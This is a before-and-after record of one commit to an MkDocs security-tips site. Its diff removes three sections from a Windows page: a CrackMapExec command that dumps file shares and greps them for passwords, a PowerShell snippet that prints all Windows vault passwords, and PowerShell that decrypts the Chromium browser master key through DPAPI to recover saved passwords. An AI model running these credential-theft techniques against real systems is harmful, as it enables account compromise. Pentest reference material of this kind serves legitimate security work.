

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 8497 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -400,54 +400,3 @@ $policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
 $acl = get-acl HKLM:\System\CurrentControlSet\Services
 ConvertFrom-SddlString -Sddl $acl -type RegistryRights | { Foreach-Object { $.DiscretionaryAcl } }
 ```
-
-
-### List and dump shares to find secrets
-
-Using the `spider_plus` module from `CrackMapExec`](https://github.com/byt3bl33d3r/CrackMapExec)
-you can list the files from Windows share and dump the small files. After that
-you `grep` those files to find secrets.
-
-```bash
-cme {IP} -d {DOMAIN} -u {USERNAME} -p {PASSWORD} -m spider_plus
-grep ./output_folder "password"
-```
-
-
-### Read Vault Password
-
-```powershell
-[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
-(New-Object Windows.Security.Credentials.PasswordVault).RetrieveAll() | ForEach-Object {
-    $_.RetrievePassword()
-    Write-Host "[" $_.Resource "] " $_.Username ": " $_.Password
-}
-```
-
-### Unprotect strict using DAPI
-
-Chromium based browsers (Google Chrome, Edge, ...) on Windows use DAPI to encrypt
-the master key within the user session. It's possible to use PowerShell (or the
-Win32API) to recover the master key. With this master key you can decrypt the
-saved passwords from the sqlite database using [this script](./assets/chrome_passwords.py)
-
-```powershell
-Add-Type -AssemblyName System.Security
-
-$chrome_dir = $env:LOCALAPPDATA + "\\Google\\Chrome\\User Data"
-# $chrome_dir = $env:LOCALAPPDATA + "\\Microsoft\\Edge\\User Data"
-$chrome_local_state_path = $chrome_dir + "\\Local State"
-$chrome_default_db_path = $chrome_dir + "\\Default\\Login Data"
-
-# Read the encrypted master key from the config file
-$local_state = Get-Content -Raw -Path $chrome_local_state_path
-$r = $local_state -match '"os_crypt":{"encrypted_key":"(.*?)"},"password_manager":{'
-$raw_master_key = $Matches[1]
-
-# Decrypt the master key
-$raw_master_key = [Convert]::FromBase64String($raw_master_key)
-$master_key = [System.Byte[]]::CreateInstance([System.Byte], $raw_master_key.Length-5)
-For ($i=0; $i -lt $raw_master_key.length-5; $i++) { $master_key[$i] = $raw_master_key[$i+5] }
-$master_key = [System.Security.Cryptography.ProtectedData]::Unprotect($master_key, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
-$master_key_hex = ($master_key | ForEach-Object ToString X2) -join ''
-```
````
Also changed, not shown: docs/miscs.md (+22 -0 lines).
